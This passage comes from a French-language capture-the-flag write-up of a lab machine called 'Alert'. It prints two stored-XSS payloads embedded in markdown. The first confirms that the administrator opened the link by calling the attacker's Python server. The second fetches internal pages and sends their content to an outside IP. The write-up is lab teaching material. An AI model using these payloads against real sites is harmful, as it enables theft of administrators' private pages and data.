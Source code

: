 ### Page de contact

Dans la page `about` du site on peut lire `"If you experience any problems with our service, please let us know. Our administrator is in charge of reviewing contact messages and reporting errors to us, so we strive to resolve all issues within 24 hours"`.

Nous pouvons donc tenter de faire ouvrir cette page infecter à l'administrateur en utilisant la page de contact.

{{ image(url="contact_page.jpg", no_hover=true) }}

Pour cela nous pouvons envoyer le lien de partage de notre document à l'admin via la page de contact, en esperant qu'il l'ouvre. Il nous faut donc un moyen de prouver qu'il a bien ouvert notre lien.

Pour verifier que l'admin ouvre notre lien, on peut utiliser la commande `fetch` dans notre payload javascript, qui sert à requeter une URL. En requetant une URL dont on peut superviser l'accès on saura si l'administrateur a cliqué sur le lien.

On peut faire tourner un serveur http en python (`python3 -m http.server`) et donner l'URL de ce serveur.

Voici le payload utilisé dans le markdown.

```md
<script>
fetch('http://<MYIP>:5000');
</script>
```

Il nous faut donc envoyer ce payload via la page d'upload (`http://alert.htb?page=alert`). Récupérer le lien de partage, envoyer ce lien via le formulaire de contact puis attendre de voir si notre lien est requeté.

{{ image(url="mail_contact.jpg", no_hover=true) }}

{{ image(url="pingback.jpg", no_hover=true) }}

On peut voir que notre serveur a bien été requeté. On sait donc que notre lien a été ouvert.

### Enumération via XSS

Il nous faut maintenant trouvé un moyen d'exploiter cette XSS.

Pendant l'énumération de pages sur le site au début de ce rapport, nous avions trouvé les pages `/messages`, `/uploads` et `/messages.php`. Nous allons faire ouvrir ces pages par l'admin puis lui faire nous renvoyer le contenu pour voir si ce qu'il voit est different de ce que nous voyons.

Pour ça on utilise le payload suivant dans le markdown. Avec `<PATH>` la page que l'on souhaite récupérer. Ce script va requeter la page voulue, puis requeter notre serveur avec comme paramètre d'URL le contenu de la page en question. Puisque nous controllons notre serveur il est simple de récupérer ce paramètre.

```md
<script>
fetch("http://alert.htb/<PATH>")  <---- REQUETE LA PAGE VOULUE
.then(response => response.text())
.then(data => {
    fetch("http://10.10.14.60:8000/?file_content=" + encodeURIComponent(data)); <---- RENVOIE LE CONTENU
   });
</script>
```
